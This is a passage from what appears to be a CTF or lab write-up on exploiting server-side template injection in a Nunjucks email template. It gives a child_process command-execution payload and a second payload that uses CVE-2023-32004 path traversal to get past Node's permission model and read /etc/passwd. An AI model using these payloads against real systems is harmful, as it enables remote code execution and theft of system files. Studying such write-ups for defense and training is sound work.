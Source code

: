 We can edit email template and we can see its using nunjucks expressions, let's try SSTI here.

using this payload doesn't work for some reason 

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`



If we take a look at that cron command we can see its using node `--experimental-permission` model and it only only reading files from the application directory and only allow file write to one specific directory.



The application is using `v20.5.0` node version which is not the latest one let's check nodejs channel log for `node v20.5.1` so we can see what has been fixed in the later release and we were able to find[ this CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32004) 



The description is pretty self explanatory. We can build the following payload

```
{{range.constructor("return global.process.mainModule.require('fs').readFileSync(Buffer.from('/root/serviceManager/mail/../../../../../../../etc/passwd'))")()}}
```

![img](assets/leak.png)
